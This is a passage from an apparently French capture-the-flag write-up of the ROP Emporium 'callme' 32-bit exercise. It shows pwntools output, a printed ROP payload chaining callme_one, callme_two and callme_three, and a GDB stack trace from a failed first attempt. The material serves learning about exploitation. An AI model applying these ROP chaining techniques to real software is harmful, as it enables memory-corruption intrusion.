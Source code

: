 Execution :

    python3 essai1.py -d

    [*] '/home/jce/w/ropemporium/x32/callme/callme32'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
        RUNPATH:  b'.'
    [+] Starting local process '/home/jce/w/ropemporium/x32/callme/callme32': pid 6132
    [*] callme_one=80484f0
    [*] callme_two=8048550
    [*] callme_three=80484e0

    printf %44s\xf0\x84\x04\x08\xef\xbe\xad\xde\xbe\xba\xfe\xca\x0d\xf0\x0d\xd0\x50\x85\x04\x08\xef\xbe\xad\xde\xbe\xba\xfe\xca\x0d\xf0\x0d\xd0\xe0\x84\x04\x08\xef\xbe\xad\xde\xbe\xba\xfe\xca\x0d\xf0\x0d\xd0 A

    [*] Switching to interactive mode
    [*] Process '/home/jce/w/ropemporium/x32/callme/callme32' stopped with exit code 1 (pid 6132)
    callme by ROP Emporium
    x86

    Hope you read the instructions...

    > Thank you!
    Incorrect parameters
    [*] Got EOF while reading in interactive

Voilà qui est décevant

Observons ce qui se passe.

Avec un point d'arrêt en pwnme+97 sur le ret
La pile :

    ─────────────────────────────────────────────────────────────── stack ────
    0xffd58b8c│+0x0000: 0x80484f0  →  <callme_one@plt+0> jmp DWORD PTR ds:0x804a018	 ← $esp
    0xffd58b90│+0x0004: 0xdeadbeef
    0xffd58b94│+0x0008: 0xcafebabe
    0xffd58b98│+0x000c: 0xd00df00d
    0xffd58b9c│+0x0010: 0x8048550  →  <callme_two@plt+0> jmp DWORD PTR ds:0x804a030
    0xffd58ba0│+0x0014: 0xdeadbeef
    0xffd58ba4│+0x0018: 0xcafebabe
    0xffd58ba8│+0x001c: 0xd00df00d
    ─────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048749 <pwnme+92>       add    esp, 0x10
    0x804874c <pwnme+95>       nop
    0x804874d <pwnme+96>       leave
    →  0x804874e <pwnme+97>       ret
      ↳ 0x80484f0 <callme_one@plt+0> jmp    DWORD PTR ds:0x804a018
        0x80484f6 <callme_one@plt+6> push   0x18
        0x80484fb <callme_one@plt+11> jmp    0x80484b0
        0x8048500 <puts@plt+0>     jmp    DWORD PTR ds:0x804a01c
        0x8048506 <puts@plt+6>     push   0x20
        0x804850b <puts@plt+11>    jmp    0x80484b0
